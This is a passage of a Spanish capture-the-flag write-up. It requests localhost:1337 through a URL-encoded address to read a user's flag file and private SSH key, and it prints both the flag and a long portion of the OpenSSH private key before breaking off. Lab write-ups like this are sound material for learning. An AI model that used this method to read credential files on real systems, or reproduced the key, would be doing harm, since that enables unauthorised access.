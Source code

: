 
Vemos que los 2 unicos puertos que nos lleva algun sitio es el 80 y 33, sabiendo que el 80 es de la pagina web, el 1337 sera nuestra clave para movernos entre directorios...

Si entramos dentro de este puerto nos apareceran los archivos del servidor, por lo que tendremos que irle añadiendo rutas a la URL para ir llendo a la flag del primer usuario...

Una vez que sabemos la ruta...

```
URL = http%3a//127.0.0.1%3a1337/home/saad/user.txt
```

> `Esa primera parte la codificamos en URL por si acaso`

Y veremos la flag del primer usuario...

> user.txt (flag1)

```
9a1ce90a7653d74ab98630b47b8b4a84
```

Despues si seguimos investigando en la `/home/` Veremos que hay un `.ssh` y que dentro de el esta el `id_rsa` privado por lo que podremos conectarnos por ssh con su clave privada...

```
URL = http%3a//127.0.0.1%3a1337/home/saad/.ssh/id_rsa
```

id\_rsa:

```
-----BEGIN OPENSSH PRIVATE KEY-----
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
```